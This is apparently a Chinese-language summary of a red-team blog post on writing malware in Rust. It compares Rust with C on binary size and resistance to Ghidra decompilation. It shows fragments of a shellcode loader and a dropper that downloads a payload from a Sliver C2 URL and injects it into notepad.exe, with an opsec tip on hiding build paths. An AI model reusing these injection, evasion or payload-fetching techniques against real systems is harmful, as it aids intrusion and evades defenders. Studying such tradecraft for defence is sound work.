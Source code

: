 ```yaml
---
date: 2025-08-02T21:49:26+08:00
title: "Rust在恶意软件开发中的优势与实践"
tags: [Rust, 恶意软件, 逆向工程, 网络安全]
authors: qife
description: "本文探讨了使用Rust语言开发恶意软件相比传统C语言的优势，包括其反分析特性和对逆向工程的挑战。通过一个简单的shellcode注入器实例，展示了Rust如何更好地模拟现代攻击技术。"
---
```


# Rust在恶意软件开发中的应用

## 引言
作者分享了学习Rust进行恶意软件开发的经历，旨在提升模拟真实攻击的能力。Rust因其固有的反分析特性成为首选语言，能开发更具隐蔽性的工具。

## Rust与C语言的对比分析
近年来，Go、Nim和Rust等语言在恶意软件作者中日益流行，主要基于两个假设：
1. 这些语言编译的二进制文件比C/C++更难逆向分析
2. 非常规语言开发的恶意软件更容易绕过基于签名的检测机制

2023年罗切斯特理工学院的一项研究证实：
- Rust二进制文件显著大于C/C++版本
- 自动化分析工具对Rust程序产生更多误报和漏报
- Ghidra和IDA Free等工具对Rust二进制文件的反编译效果较差

## 实例分析：Shellcode加载器
通过功能相同的Rust和C版shellcode加载器进行对比：
```rust
use std::fs::File;
use std::ptr;
use std::io::{self, Read};
use windows::Win32::{
    System::{
        Threading::{CreateThread, WaitForSingleObject, THREAD_CREATION_FLAGS, INFINITE},
        Memory::{VirtualAlloc, VirtualProtect, MEM_COMMIT, MEM_RESERVE, PAGE_READWRITE, PAGE_EXECUTE_READWRITE, PAGE_PROTECTION_FLAGS},
    },
    Foundation::CloseHandle
};
```

编译后，Rust程序(151.5KB)几乎是C程序(71.7KB)的两倍，这是因为Rust默认静态链接依赖项。

## Ghidra逆向分析对比
Rust程序的反编译输出难以理解，原因包括：
1. Ghidra尝试将Rust反编译为伪C代码，但内存管理和优化差异导致难以理解
2. rustc的编译优化导致函数边界模糊，汇编代码高度优化

相比之下，C程序的反编译输出与源代码高度一致。

## 开发Rust恶意软件投放器
构建一个投放器演示，功能包括：
1. 枚举目标进程以注入payload
2. 使用文件映射注入技术执行payload
3. 通过HTTPS部署Sliver C2框架

关键代码模块：
```rust
mod enumerate_processes;
mod remote_mapping_injection;
mod http_client;

fn main() {
    let url = String::from("https://sliver.nrcerne.com:8444/DULL_EQUIPMENT");
    let shellcode = http_client::get_payload_bytes(url).unwrap();
    // 注入notepad.exe进程
}
```

## 操作安全考虑
Rust会在二进制文件中包含绝对路径(用于调试)，因此需在匿名环境中编译以保护操作安全。

## 结论
Rust是C/C++开发恶意软件的优秀替代方案。虽然Ghidra 11.0在反编译Rust二进制文件方面取得进步，但由于函数内联和编译优化，分析Rust程序仍然困难。更大的二进制文件也增加了分析时间成本。

[完整代码示例可在GitHub获取](https://github.com/bishopfox/rust-malware-example)
